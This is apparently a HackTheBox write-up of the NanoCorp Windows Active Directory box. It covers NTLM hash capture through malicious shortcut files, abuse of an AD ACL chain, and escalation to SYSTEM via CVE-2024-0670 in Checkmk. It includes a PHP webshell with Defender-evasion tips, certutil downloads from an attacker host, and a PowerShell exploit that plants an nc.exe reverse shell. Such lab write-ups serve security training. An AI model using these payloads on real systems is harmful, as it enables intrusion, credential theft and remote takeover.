



# HackTheBox – NanoCorp

NanoCorp is a Windows Server 2022 Active Directory box that rewards careful enumeration at every layer. The path to SYSTEM weaves through a hiring portal's file upload feature, a BloodHound-discovered ACL chain, and a surprisingly elegant local privilege escalation in the Checkmk monitoring agent — each step demanding a slightly different tooling trick to avoid the pitfalls of network logon sessions, Protected Users restrictions, and Windows Defender.

---

## Overview

At a high level, the attack path looks like this:

1. Enumerate the domain and discover a hiring portal with a ZIP extraction feature
2. Upload a malicious ZIP to capture `web_svc`'s NTLMv2 hash via Responder
3. Use BloodHound to find an ACL chain: `web_svc` → `IT_SUPPORT` → `monitoring_svc` → WinRM
4. Log in as `monitoring_svc` using Kerberos (Protected Users blocks NTLM)
5. Escalate to SYSTEM via CVE-2024-0670: Checkmk MSI repair temp-file hijack, executed through RunasCs to get an interactive logon session

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scanning

Starting with a full Nmap scan, I add `-sV` for service versions and `-sC` for default scripts. On a Windows AD box, you expect a lot of noise — the key is filtering signal from it.




A few things immediately catch my eye:

- **Port 6556** — a Checkmk monitoring agent, version 2.1.0p10. No TLS, legacy pull mode. This is unusual and worth noting for later.
- **Port 5986** — WinRM over HTTPS only. No HTTP fallback.
- **SMB signing required** — relay attacks are off the table.
- The Apache instance redirects to `nanocorp.htb`, so I add that to `/etc/hosts`.

### Web Enumeration

Browsing to `nanocorp.htb` shows a standard corporate site. Nothing immediately exploitable. I run a virtual host scan (using `ffuf` or `gobuster vhost`) looking for additional subdomains:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  -H "Host: FUZZ.nanocorp.htb" -u http://nanocorp.htb -fs 0
```

This surfaces `hire.nanocorp.htb` — a job application portal. After adding it to `/etc/hosts`, I find a file upload feature that accepts ZIP, 7Z, and RAR archives and extracts them to `/uploads/`. Crucially, the `/uploads/` directory itself returns HTTP 403 — so we can't browse it directly. But the files are being extracted, and something is processing them.

### Domain User Enumeration

With Kerberos on port 88, I can enumerate valid users without credentials using `kerbrute`:

```bash
kerbrute userenum --dc dc01.nanocorp.htb -d nanocorp.htb \
  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

This confirms: `administrator`, `web_svc`, `monitoring_svc`, `guest` (disabled), and the machine account `dc01$`.

Interesting split: `web_svc` is a service account running Apache (the XAMPP stack runs as this user). `monitoring_svc` is a different service account — and BloodHound will tell us it has special privileges.

### BloodHound — Finding the ACL Chain

With `web_svc`'s credentials in hand (spoiler: we crack them shortly), I run BloodHound's Python ingestor:

```bash
bloodhound-python -u web_svc -p 'dksehdgh712!@#' \
  -d nanocorp.htb -dc dc01.nanocorp.htb -c All --zip
```

The resulting graph reveals a clean attack path:

```
web_svc --[AddSelf]--> IT_SUPPORT --[ForceChangePassword]--> monitoring_svc
monitoring_svc --[memberOf]--> Remote Management Users --> WinRM
```

`web_svc` has an `AddSelf` ACE on the `IT_SUPPORT` group (it can add itself as a member). `IT_SUPPORT` has `ForceChangePassword` rights on `monitoring_svc`. And `monitoring_svc` is in `Remote Management Users`, meaning WinRM access. One more detail: `monitoring_svc` is in **Protected Users**, which blocks NTLM authentication entirely. We'll need Kerberos to log in.

---

## Foothold

### Step 1: Capturing the NTLMv2 Hash

The `/uploads/` directory is 403, but something is clearly processing the extracted files — most likely `web_svc` browsing or indexing the directory. This opens the door for a classic NTLM capture: if we can get the server to load a file pointing to our attacker IP, it'll attempt SMB authentication and leak an NTLMv2 hash.

I start Responder on my interface:

```bash
sudo responder -I tun0 -v
```

Then I craft a ZIP containing three different file types to maximize the chance one triggers an SMB connection — a `.url` Windows Internet Shortcut, a `.scf` Shell Command File, and a `.library-ms` Windows Library file, all pointing to my attacker IP:

```ini
# trigger.url
[InternetShortcut]
URL=file://<VPN_IP>/share/test
IconFile=\\<VPN_IP>\share\icon.ico
```

```ini
# trigger.scf
[Shell]
Command=2
IconFile=\\<VPN_IP>\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

I zip them together and upload through the hiring portal. Within a minute, Responder lights up:




Now I crack it with hashcat:

```bash
hashcat -m 5600 web_svc.hash /usr/share/wordlists/rockyou.txt
```

Result: `dksehdgh712!@#`. The special characters will cause minor headaches later, but the cred is solid.

### Step 2: Abusing the ACL Chain

**Adding web_svc to IT_SUPPORT**

My first instinct was to use `ldapmodify`. It returned success — but `monitoring_svc`'s group membership never actually changed. This is a known silent failure mode. The fix is to use the Python `ldap3` library directly:

```python
from ldap3 import Server, Connection, MODIFY_ADD

server = Server('dc01.nanocorp.htb', get_info='ALL')
conn = Connection(server, user='NANOCORP\\web_svc', password='dksehdgh712!@#')
conn.bind()

conn.modify(
    'CN=IT_SUPPORT,CN=Users,DC=nanocorp,DC=htb',
    {'member': [(MODIFY_ADD, ['CN=web_svc,CN=Users,DC=nanocorp,DC=htb'])]}
)
print(conn.result)
```

This time the modification sticks and we can verify with `net rpc group members`.

**Forcing monitoring_svc's Password**

With `web_svc` now in `IT_SUPPORT` (which has `ForceChangePassword` on `monitoring_svc`), I can reset the password. I used `rpcclient`'s `setuserinfo2` rather than `net rpc password` — the latter sometimes returns success without actually committing the change:

```bash
rpcclient -U "nanocorp.htb/web_svc%dksehdgh712\!\@\#" dc01.nanocorp.htb \
  -c "setuserinfo2 monitoring_svc 23 'NewP@ssw0rd123!'"
```

Note the shell escaping on `!@#` — bash treats `!` as a history expansion character. Wrapping the password in single quotes avoids most issues, but the backslash-escaping before `!` is still needed in some shells.

### Step 3: WinRM via Kerberos

`monitoring_svc` is in Protected Users, which means NTLM is completely blocked. We need a Kerberos ticket. First, configure `/etc/krb5.conf`:

```ini
[libdefaults]
    default_realm = NANOCORP.HTB

[realms]
    NANOCORP.HTB = {
        kdc = dc01.nanocorp.htb
        admin_server = dc01.nanocorp.htb
    }

[domain_realm]
    .nanocorp.htb = NANOCORP.HTB
    nanocorp.htb = NANOCORP.HTB
```

Get a ticket and connect:

```bash
kinit monitoring_svc@NANOCORP.HTB
# enter the new password

KRB5CCNAME=/tmp/krb5cc_1000 evil-winrm -i dc01.nanocorp.htb -r NANOCORP.HTB --ssl
```

A quick sanity check — I also tried `nxc winrm` with `-k` and `pywinrm` with pykerberos. The former connected but choked on command execution with a `NoneType` error; the latter threw "Server not found in Kerberos database" even with a valid ticket. Evil-WinRM with `--ssl -r` was the reliable path here.

We now have a WinRM shell as `monitoring_svc` and can grab the user flag from their desktop.

---

## Privilege Escalation

### CVE-2024-0670 — Checkmk MSI Repair Temp File Hijack

Remember that Checkmk agent on port 6556? Version 2.1.0p10 is vulnerable to CVE-2024-0670. The vulnerability is elegant: when the Checkmk MSI package runs a repair operation (`msiexec /fa`), the agent creates temporary `.cmd` files in `C:\Windows\Temp` with a predictable naming pattern:

```
cmk_all_<PID>_<counter>.cmd
```

These files are executed as SYSTEM. If we pre-seed files with those names containing our own payload and mark them read-only, the agent can't overwrite them — it just executes ours.

**The interactive logon problem**

There's a catch: `msiexec /fa` requires an interactive logon session (type 2). WinRM sessions are network logons (type 3), and Windows Installer service rejects them with "Access Denied". I spent time confirming this isn't a permissions issue — it's a fundamental logon type restriction.

The solution is **RunasCs** — a tool that creates interactive logon sessions from a non-interactive context. This is similar to the logon type manipulation we used in other AD privilege escalation scenarios.

**Setting up the attack**

First, I need a foothold on the web server to stage files. `monitoring_svc`'s WinRM session showed me that `BUILTIN\Users` has write access to `C:\xampp\htdocs\nanocorp\`. I can drop a PHP webshell there — but Defender is watching. The trick is to avoid putting the webshell content in a PowerShell string directly (Defender flags `$_REQUEST`, `$_GET`, etc.), so I build it with string concatenation and write it as bytes:

```powershell
# From evil-winrm, write a webshell using base64-encoded bytes
$bytes = [System.Text.Encoding]::UTF8.GetBytes('<?php system($_GET["c"]); ?>')
[IO.File]::WriteAllBytes('C:\xampp\htdocs\nanocorp\s.php', $bytes)
```

Now I upload the required files to `C:\Windows\Temp` via the webshell:

```
http://nanocorp.htb/s.php?c=certutil+-urlcache+-split+-f+http://<VPN_IP>/RunasCs.exe+C:\Windows\Temp\RunasCs.exe
http://nanocorp.htb/s.php?c=certutil+-urlcache+-split+-f+http://<VPN_IP>/nc.exe+C:\Windows\Temp\nc.exe
http://nanocorp.htb/s.php?c=certutil+-urlcache+-split+-f+http://<VPN_IP>/bad.ps1+C:\Windows\Temp\bad.ps1
```

**The exploit script (bad.ps1)**

```powershell
# Find the Checkmk MSI path from registry
$msiPath = (Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Installer\UserData\S-1-5-18\Products\*\InstallProperties" |
    Where-Object { $_.DisplayName -like "*mk*" } |
    Select-Object -First 1).LocalPackage

# Seed temp files for PIDs 1000-15000, counters 0 and 1
$lhost = "<VPN_IP>"
$lport = "4444"
$payload = "C:\Windows\Temp\nc.exe -e cmd.exe $lhost $lport"

for ($pid = 1000; $pid -le 15000; $pid++) {
    foreach ($counter in 0,1) {
        $path = "C:\Windows\Temp\cmk_all_${pid}_${counter}.cmd"
        if (-not (Test-Path $path)) {
            Set-Content -Path $path -Value $payload
            Set-ItemProperty -Path $path -Name IsReadOnly -Value $true
        }
    }
}

# Trigger MSI repair
Start-Process msiexec -ArgumentList "/fa `"$msiPath`" /qn" -Wait
```

**Executing via RunasCs**

I set up my listener:

```bash
nc -lvnp 4444
```

Then trigger RunasCs through the webshell. Note the URL encoding — `!@#` must become `%21%40%23` in a GET parameter:

```
http://nanocorp.htb/s.php?c=C:\Windows\Temp\RunasCs.exe+web_svc+"dksehdgh712%21%40%23"+"powershell.exe+-NoProfile+-ExecutionPolicy+Bypass+-File+C:\Windows\Temp\bad.ps1"
```

RunasCs spawns the PowerShell script under an interactive session. The script seeds thousands of `.cmd` files, triggers the MSI repair, and when Checkmk's repair process creates its temp file — it finds our read-only payload waiting there instead.




From there it's a straight shot to `C:\Users\Administrator\Desktop\root.txt`.

---

## Lessons Learned

**RunasCs for interactive logon requirements.** Windows Installer's MSI repair requires a type 2 (interactive) logon. WinRM and webshell sessions are type 3 (network) logons and get silently denied. RunasCs is the bridge — it's worth keeping in your toolkit any time you hit Windows Installer restrictions from a remote session.

**CVE-2024-0670 file naming.** The pattern is `cmk_all_<PID>_<counter>.cmd`, counter starts at 0. Seeding both 0 and 1 per PID is important. The PID range 1000–15000 covers the realistic space for a running Windows system.

**ldap3 over ldapmodify.** `ldapmodify` can return success while silently failing to add group members in certain AD configurations. The Python `ldap3` library gives you reliable feedback and is worth defaulting to for any LDAP modification work.

**rpcclient setuserinfo2 over net rpc password.** `net rpc password` sometimes returns success without actually changing the password. `rpcclient setuserinfo2` with info level 23 is the more reliable primitive for forced password resets.

**Protected Users means Kerberos, full stop.** No NTLM fallback, no pass-the-hash, no shortcuts. Get `/etc/krb5.conf` configured correctly, use `kinit`, and pass `KRB5CCNAME` explicitly. Evil-WinRM with `--ssl -r <REALM>` is the most reliable WinRM client for this scenario.

**Defender webshell evasion.** PHP webshell payloads containing `$_GET` or `$_REQUEST` get flagged. Build the string with concatenation or use `[IO.File]::WriteAllBytes()` with a pre-encoded byte array. Neither approach is novel, but both work reliably against Defender's default ruleset.

**Evil-WinRM backslash mangling.** When passing commands through Evil-WinRM's piped input, `\b` becomes a backspace and `\e` becomes an escape character. If your file paths or tool names contain these sequences, either rename the file or use the webshell for complex commands.
